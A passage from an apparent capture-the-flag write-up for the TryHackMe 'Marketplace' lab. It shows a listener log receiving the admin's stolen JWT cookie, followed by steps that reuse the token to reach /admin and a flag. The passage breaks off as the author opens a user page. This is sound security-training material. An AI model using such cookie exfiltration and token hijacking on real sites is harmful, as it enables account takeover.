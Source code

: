 After reporting we get the admin's token cookie

```bash
10.10.87.36 - - [18/Oct/2020 07:32:44] code 404, message File not found
10.10.87.36 - - [18/Oct/2020 07:32:44] "GET /token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDMwMzg3NjN9.CK10X5v85_ZO4PlVMm_XLJbfbGWL6eb8FONW535fNM0 HTTP/1.1" 404 -
```

Now if we change the token to the admin's token we get admin access

![/assets/images/TryHackMe/The_marketplace/Untitled%208.png](/assets/images/TryHackMe/The_marketplace/Untitled%208.png)

Now if we visit /admin

![/assets/images/TryHackMe/The_marketplace/Untitled%209.png](/assets/images/TryHackMe/The_marketplace/Untitled%209.png)

So we have admin access and got first flag as well.

Now if we click on any user

![/assets/images/TryHackMe/The_marketplace/Untitled%2010.png](/assets/images/TryHackMe/The_marketplace/Untitled%2010.png)
